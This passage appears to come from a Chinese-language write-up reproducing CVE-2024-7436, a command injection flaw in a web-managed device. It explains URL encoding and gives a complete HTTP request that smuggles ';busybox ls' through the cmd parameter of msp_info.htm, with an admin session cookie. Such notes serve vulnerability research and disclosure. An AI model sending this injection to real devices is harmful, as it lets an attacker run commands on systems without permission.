 ![image-20250218232622528](./assets/CVE-2024-7436命令注入/image-20250218232622528.png)

构造正确的请求：

在 URL 编码中，换行符被表示为 "%0A" 或 "%0D%0A"。"%0A" 表示换行符（LF，Line Feed），"%0D%0A" 表示回车换行符（CRLF，Carriage Return Line Feed），空格编码 "%20"

```
GET /msp_info.htm?flag=cmd&cmd=;busybox%20ls HTTP/1.1

Host: 192.168.0.1

Accept-Language: en-US,en;q=0.9

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Accept-Encoding: gzip, deflate, br

Cookie: wys_userid=admin,wys_passwd=520E1BFD4CDE217D0A5824AE7EA60632

Connection: keep-alive
```
